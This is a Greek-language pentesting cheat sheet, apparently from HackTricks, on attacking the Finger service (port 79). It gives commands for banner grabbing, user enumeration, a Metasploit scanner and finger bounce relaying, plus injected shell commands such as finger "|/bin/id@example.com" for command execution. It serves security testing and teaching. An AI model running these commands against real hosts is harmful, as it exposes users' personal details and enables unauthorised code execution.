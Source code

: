 # 79 - Pentesting Finger

{{#include ../banners/hacktricks-training.md}}


## **Βασικές Πληροφορίες**

Το πρόγραμμα/υπηρεσία **Finger** χρησιμοποιείται για την ανάκτηση λεπτομερειών σχετικά με τους χρήστες υπολογιστών. Συνήθως, οι πληροφορίες που παρέχονται περιλαμβάνουν το **όνομα σύνδεσης του χρήστη, το πλήρες όνομα** και, σε ορισμένες περιπτώσεις, επιπλέον λεπτομέρειες. Αυτές οι επιπλέον λεπτομέρειες θα μπορούσαν να περιλαμβάνουν την τοποθεσία του γραφείου και τον αριθμό τηλεφώνου (αν είναι διαθέσιμος), την ώρα που ο χρήστης συνδέθηκε, την περίοδο αδράνειας (idle time), την τελευταία φορά που διαβάστηκε το email από τον χρήστη και τα περιεχόμενα των αρχείων σχεδίου και έργου του χρήστη.

**Προεπιλεγμένη θύρα:** 79
```
PORT   STATE SERVICE
79/tcp open  finger
```
## **Καταμέτρηση**

### **Λήψη Πανό/Βασική σύνδεση**
```bash
nc -vn <IP> 79
echo "root" | nc -vn <IP> 79
```
### **Καταμέτρηση χρηστών**
```bash
finger @<Victim>       #List users
finger admin@<Victim>  #Get info of user
finger user@<Victim>   #Get info of user
```
Εναλλακτικά, μπορείτε να χρησιμοποιήσετε το **finger-user-enum** από τον [**pentestmonkey**](http://pentestmonkey.net/tools/user-enumeration/finger-user-enum), μερικά παραδείγματα:
```bash
finger-user-enum.pl -U users.txt -t 10.0.0.1
finger-user-enum.pl -u root -t 10.0.0.1
finger-user-enum.pl -U users.txt -T ips.txt
```
#### **Nmap εκτελεί ένα σενάριο για να χρησιμοποιήσει τα προεπιλεγμένα σενάρια**

### Το Metasploit χρησιμοποιεί περισσότερα κόλπα από το Nmap
```
use auxiliary/scanner/finger/finger_users
```
### Shodan

- `port:79 USER`

## Εκτέλεση εντολών
```bash
finger "|/bin/id@example.com"
finger "|/bin/ls -a /@example.com"
```
## Finger Bounce

[Χρησιμοποιήστε ένα σύστημα ως δρομολογητή finger](https://securiteam.com/exploits/2BUQ2RFQ0I/)
```
finger user@host@victim
finger @internal@external
```
{{#include ../banners/hacktricks-training.md}}
